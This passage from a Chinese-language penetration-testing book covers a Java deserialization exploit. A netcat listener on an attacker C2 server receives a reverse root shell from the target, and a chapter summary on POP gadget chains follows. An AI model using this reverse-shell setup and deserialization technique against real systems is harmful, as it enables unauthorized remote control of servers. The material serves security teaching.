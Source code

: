 ![反序列化漏洞](img/B09238_08_12.jpg)

服务器返回一个 `java.lang.ClassCastException`，这意味着它尝试将我们的有效负载转换为 `HashRequest` 但失败了。这是件好事，因为在捕获异常时，POP 工具链已经成功执行，我们的 C2 服务器上已经有了一个等待的 shell：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.2.0.4] from deserlab.app.internal [11.21.126.51] 48946
**id** 
**uid=0(root)**

**gid=0(root) groups=0(root)**

```

# 总结

在本章中，我们探讨了另一种用户输入被滥用的方式，它可以在易受攻击的应用程序上执行任意代码。序列化在现代应用程序中非常有用，特别是随着应用程序变得更加复杂和分布式。数据交换变得容易，但有时是以牺牲安全性为代价的。

在前面的示例中，由于对反序列化数据的处理过程做了假设，导致了应用程序的安全性受到威胁。对象流中没有可执行代码，至少在传统意义上是没有的，因为序列化的数据只是对象的一个状态快照。只要语言解释器安全地读取输入，它应该是安全的。也就是说，前提是没有缓冲区溢出或类似的漏洞。然而，正如我们所见，我们不需要利用 Java 虚拟机或 PHP 的解释器来妥协系统。我们能够利用反序列化功能，通过 POP 工具链的帮助，控制应用程序的执行流程。

在下一章中，我们将重点关注针对用户的实际攻击，利用应用程序漏洞。
